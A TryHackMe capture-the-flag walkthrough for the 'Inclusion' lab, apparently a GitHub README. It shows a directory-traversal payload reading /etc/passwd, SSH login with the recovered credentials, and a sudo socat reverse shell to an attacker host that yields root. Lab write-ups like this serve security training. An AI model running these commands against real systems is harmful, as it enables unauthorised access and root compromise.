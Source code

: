 # TryHackme Inclusion
**A beginner level LFI challenge**

* Before moving further I would recommend to gather some knowledge about Local File Inclusion and directory traversal.

## Task-2 Root It

* First enumerate the ip using nmap (*nmap ip*)

* Just go to the IP in browswer and type(*ip/../../../etc/passwd*) which is the default password file for linux. Now view the page source and you will find a user named 'falconfeast' and its password. These are creds for ssh which is open which we saw from nmap scan.

* Type (*ssh falconfeast@ip*) and then password to gain ssh shell. After that we are logged in to falconfeast. Type 'ls' to see its content and you will see a user.txt file. 'cat' it and you will have answer to your first question.

1. user flag<br>
Answer : 60989***************

* After that type 'sudo -l' to see the permissions of user. We see that user can run 'socat' which is SOcket CAT. Just gather some info about it which may help you in your future. You can go to https://gtfobins.github.io/gtfobins/socat/#reverse-shell to see the reverse shell for 'Socat'. On your machine type (*socat file:`tty`,raw,echo=0 tcp-listen:any_port*). On machine 'falconfeast' type (*RHOST='your_ip(tun0)'*)<br>(*RPORT='port_selected_on_your_machine'*)<br>sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
You will see a shell on your local machine. Type 'whoami' to see the current user. It will show root. Now navigate to root using 'cd root/'. Type 'ls' to see for files and you will see root.txt file. See its content as it contains answer to the next question.

2. root flag <br>
Answer : 42964***************